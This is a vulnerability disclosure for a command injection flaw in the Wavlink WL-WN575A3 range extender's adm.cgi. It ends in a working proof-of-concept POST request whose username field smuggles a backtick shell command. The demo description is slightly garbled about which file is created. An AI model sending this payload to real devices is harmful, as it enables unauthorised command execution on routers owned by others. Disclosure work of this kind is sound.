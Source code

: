 # CVE-ID

none

# Information

**Vendor of the products:**  WAVLINK

**Vendor's website:**  https://www.wavlink.com/en_us

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com))

**Affected products:** Wavlink WL-WN575A3

**Affected firmware version:** R75A3_V1410_220513

**Firmware download address:** https://www.wavlink.com/en_us/firmware/details/fac744bd61.html

# Overview

`Wavlink WL-WN575A3 R75A3_V1410_220513` has a command injection vulnerability detected at function `set_sys_adm`. Attackers can send `POST` request messages to `/cgi-bin/adm.cgi` and inject evil commands into parameter `username` to execute arbitrary commands.

# Product parameters

`Wavlink WL-WN575A3` is an AC1200 Dual-band Wi-Fi Range Extender. The test version(the newest version) here is `R75A3_V1410_220513`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/etc_ro/lighttpd/www/cgi-bin/adm.cgi`.

At first, from the `_start` entry enters, and then the `ftext` function is executed.

![](imgs/2.png)

In the function `ftext`, When sending a POST request to this interface, function `set_sys_adm` can be accessed by setting the parameter value of `page` to `sysAdm`.

<img src="imgs/3.png" style="zoom:100%;" />

In the function `set_sys_adm`, the program uses function `web_get` to obtain the content of parameter `SYSPASS`, `username` and `newpass` which are sent by `POST` request. On line 55, the attacker can complete command execution by controlling the `username` variable.

![](imgs/4.png)



# POC

Send the following to the URL `http://192.168.10.1/cgi-bin/adm.cgi` by `POST` request.

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 91
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.10.1/set_time.shtml?r=29725
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=1243623152
Connection: close

page=sysAdm&SYSPASS=password&username='`ls>/etc_ro/lighttpd/www/data.html`'&newpass=12345678
```

# Attack Demo

After sending the POC, the command `ls>/etc_ro/lighttpd/www/data.html` will be executed and `aaa.html` will be created in the `/etc_ro/lighttpd/www/data.html` directory.

![](imgs/5.png)

![](imgs/6.png)
